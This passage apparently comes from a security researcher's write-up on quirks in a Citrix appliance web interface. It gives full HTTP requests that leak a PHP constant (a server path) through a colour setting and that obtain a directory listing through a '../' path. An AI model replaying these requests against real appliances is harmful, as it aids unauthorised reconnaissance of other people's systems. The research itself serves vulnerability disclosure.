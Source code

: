 Couldn't find anything useful to do here, but still thought it was cool.

### PHP Constants
Okay, another quirky PHP one then. If you have a working session, you can set a background colour. However, instead of colours you can also give it PHP constants, like so (note the `PHP_DATADIR`):

```http
POST /menu/agc HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
rand_key: 1384537322.1580549312074652
DNT: 1
X-NITRO-USER: henk
X-NITRO-PASS: henk
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; rdx_pagination_size=25%20Per%20Page; SESSID=9ed492e6ff1876d44ddcaec143d2f949
Content-Length: 80

props=bg_color=PHP_DATADIR&2200391681580549312074810=1384537322.1580549312074652
```
The constant value will then be available in `/menu/repcontent?name=henk2&ds=default&new=yes&parent=Custom%20Reports`:

```js
var global_conf = new Array();
global_conf["bg_color"] = "/usr/local/share/php";
```

Cool right? Completely useless though.

### Directory listing
Last weird one I promise. How about a directory listing that only works in one specific place?

```http
GET /msn/randomname/../ HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; stst=stst; uatz=uatz; drep=Jemoeder; st_splitter=350px; rdx_pagination_size=25%20Per%20Page; SESSID=9ed492e6ff1876d44ddcaec143d2f949
Upgrade-Insecure-Requests: 1
```
![](img/dirlist.png)

